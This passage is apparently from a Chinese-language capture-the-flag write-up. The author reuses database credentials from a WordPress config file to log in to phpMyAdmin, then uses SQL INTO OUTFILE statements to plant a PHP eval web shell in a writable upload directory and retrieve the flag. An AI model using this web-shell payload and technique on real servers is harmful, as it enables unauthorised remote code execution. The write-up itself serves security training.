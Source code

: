      <?php
    define('DB_NAME', 'wordpress');
    define('DB_USER', 'wordpress');
    define('DB_PASSWORD', 'CxfKVWX5@xr5cqzb8');
    define('DB_HOST', 'localhost');
    if ( !defined('ABSPATH') )
    	define('ABSPATH', dirname(__FILE__) . '/');
    require_once(ABSPATH . 'wp-settings.php');

在这个文件里，我们可以获得wordpress用户的用户名和密码
	
	Username: wordpress
	Password: CxfKVWX5@xr5cqzb8

然后进入phpmyadmin,直接登录

	http://218.2.197.234:2040/phpmyadmin

在其中的SQL语句执行窗口执行SQL语句，直接往网站根目录写文件也是没有权限的，会报错

	select '<?php @eval($_POST[2333])?>'INTO OUTFILE '/var/www/html/123456789.php';

	#1 - Can't create/write to file '/var/www/html/123456789.php' (Errcode: 13)

尝试更换写文件的路径，首先用DirBuster扫了下目录，有images和upload两个文件夹，这种目录的权限一般会低一些。

![](http://osn75zd5c.bkt.clouddn.com/test-8-22-1.png)

尝试

	select '<?php @eval($_POST[2333])?>'INTO OUTFILE '/var/www/html/upload/123456789.php';
	select '<?php @eval($_POST[2333])?>'INTO OUTFILE '/var/www/html/images/123456789.php';

成功在images中写入shell。

![](http://osn75zd5c.bkt.clouddn.com/test-8-22-2.png)

用菜刀连接，在网站目录下获得flag

	flag{Hi_Web_fLaG_Is_HEre}   

PS: 如果已知flag在网站根目录的话，可以直接用sqlmap读取文件，不用拿Shell

## 0x02 收获&感想

1. 渗透测试中信息收集真的很重要，一旦忽略了什么，在测试过程中就更容易卡住。
2. 在测试中要打开自己的思路，要思考全面。比如写文件不行的话，可以读文件嘛，说白了，还是经验不足，练得少。
3. つ﹏⊂强行凑三条(逃
